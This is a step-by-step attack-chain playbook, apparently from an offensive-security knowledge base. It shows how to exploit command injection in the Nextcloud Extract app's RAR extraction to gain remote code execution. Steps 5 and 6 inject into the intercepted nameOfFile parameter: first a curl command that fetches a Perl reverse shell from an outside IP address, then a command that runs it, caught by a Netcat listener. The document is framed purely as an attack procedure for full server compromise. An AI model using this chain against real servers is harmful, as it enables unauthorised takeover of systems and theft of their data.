

# Remote Code Execution via OS Command Injection in Nextcloud Extract App

Multi-stage attack chain demonstrating a complete attack workflow exploiting unsanitized user input in the Nextcloud Extract app's RAR extraction feature to inject and execute arbitrary OS commands, leading to full remote code execution and server compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Netcat]]

### Target Environment

- Nextcloud instance running on Linux (e.g., Dockerized Apache/PHP setup)
- Required services/ports: Web server on port 80/443, authenticated access
- Network access requirements: Ability to upload files and intercept HTTP requests

### Initial Access Requirements

- Authenticated user account in Nextcloud
- Network position: Direct access to Nextcloud web interface
- Prior access needed: None, but authentication required

## Detailed Attack Procedures

### Step 1: Setup Nextcloud Instance
procedure: [[procedures/Setup-Nextcloud-and-Install-Extract-App]]

**Objective**: Establish a testable Nextcloud environment and gain authenticated access.

**Instructions**: Access the demo Nextcloud instance and log in to create a user account.

**Expected Output**: Successful login to Nextcloud dashboard.

**Success Indicators**:
- User account created and logged in
- Dashboard accessible

### Step 2: Install Extract App
procedure: [[procedures/Setup-Nextcloud-and-Install-Extract-App]]

**Objective**: Install the vulnerable Extract app to enable RAR file processing.

**Instructions**: Navigate to the Apps section and search for and install the Extract app.

**Expected Output**: Extract app listed as enabled in the Apps menu.

**Success Indicators**:
- App installation confirmation
- Extract option available in file context menu

### Step 3: Upload Sample RAR File
procedure: [[procedures/Upload-RAR-File-to-Nextcloud]]

**Objective**: Upload a benign RAR file to prepare for extraction exploitation.

**Instructions**: Use the file upload interface to add a sample.rar file.

**Expected Output**: File visible in Nextcloud file browser.

**Success Indicators**:
- RAR file uploaded successfully
- File selectable for extraction

### Step 4: Trigger Extraction and Intercept Request
procedure: [[procedures/Intercept-and-Trigger-RAR-Extraction]]

**Objective**: Initiate the extraction process and capture the vulnerable HTTP request.

**Instructions**: Right-click the RAR file, select 'Extract Here', and intercept the POST request using Burp Suite.

**Expected Output**: Intercepted request to /index.php/apps/extract/ajax/extractRar.php.

**Success Indicators**:
- Request captured in Burp
- Parameters like nameOfFile visible

### Step 5: Inject Command to Download Reverse Shell
procedure: [[procedures/Inject-Command-to-Download-Reverse-Shell]]

**Objective**: Modify the request to inject a command that downloads a Perl reverse shell payload.

**Instructions**: Edit the nameOfFile parameter to include the injection payload and forward the request. Use [[commands/curl-download-shell]]:

```bash
curl http://138.68.1.244/shell.pl -o /tmp/shell2.pl
```

**Expected Output**: Perl script downloaded to /tmp/shell2.pl on the server.

**Success Indicators**:
- No errors in extraction response
- File exists on server (verifiable post-exploit)

### Step 6: Inject Command to Execute Reverse Shell
procedure: [[procedures/Inject-Command-to-Execute-Reverse-Shell]]

**Objective**: Trigger execution of the downloaded shell to gain remote access.

**Instructions**: Repeat the extraction trigger, intercept, and inject the execution command. Use [[commands/perl-execute-shell]]:

```bash
perl /tmp/shell2.pl
```

Set up listener with Netcat: [[commands/nc-listen]] on port 443.

**Expected Output**: Reverse shell connection established.

**Success Indicators**:
- Incoming connection on Netcat listener
- Interactive shell prompt

## Attack Chain Summary

### Key Achievements

1. Authenticated access to Nextcloud with Extract app enabled
2. Arbitrary OS command injection via unsanitized filename parameter
3. Download and execution of reverse shell for full server compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Unix Shell]] Unix Shell

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
